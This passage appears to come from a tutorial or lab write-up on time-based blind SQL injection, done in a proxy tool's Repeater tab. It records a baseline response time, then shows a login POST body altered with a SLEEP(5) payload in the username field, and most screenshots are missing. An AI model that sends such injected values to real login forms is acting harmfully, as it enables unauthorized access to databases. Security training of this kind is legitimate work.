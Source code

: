 It took 267 ms to receive the response. (The time is displayed on the right bottom corner) ![ref2]

**Step 7:** Inject the time based payload in POST data and check the response time.  **Before:** username=admin&password=password 

**After:** username=admin' AND SLEEP(5) AND 'nGdY'='nGdY&password=password Request section in the Repeater tab: 

![](Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.017.jpeg)

Response section in the Repeater tab: ![ref2]

![](Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.018.jpeg)


[ref1]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.002.png
[ref2]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.005.png
[ref3]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.022.png
[ref4]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.026.jpeg
[ref5]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.027.jpeg
[ref6]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.035.jpeg
[ref7]: Aspose.Words.80e94011-2a8e-41f1-804c-81597aa0a459.036.jpeg